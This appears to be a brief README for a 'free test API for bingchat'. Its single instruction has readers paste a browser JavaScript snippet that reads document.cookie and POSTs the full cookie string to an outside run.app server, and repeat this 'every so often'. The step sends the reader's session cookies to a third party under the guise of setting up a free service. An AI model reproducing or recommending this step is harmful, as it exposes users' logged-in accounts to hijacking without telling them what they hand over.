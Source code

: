 # test-bingchat
free test API for bingchat

# Run this every so often:
```
const cookie = document.cookie;
const serverUrl = "https://bingchat-api-zmtik7wuba-et.a.run.app";

fetch(`${serverUrl}/set-cookie`, {
  method: "POST",
  headers: {
    "Content-Type": "application/json",
  },
  body: JSON.stringify({ cookie }),
})
  .then((res) => res.json())
  .then((res) => console.log(res))
  .catch((err) => console.log(err));
```

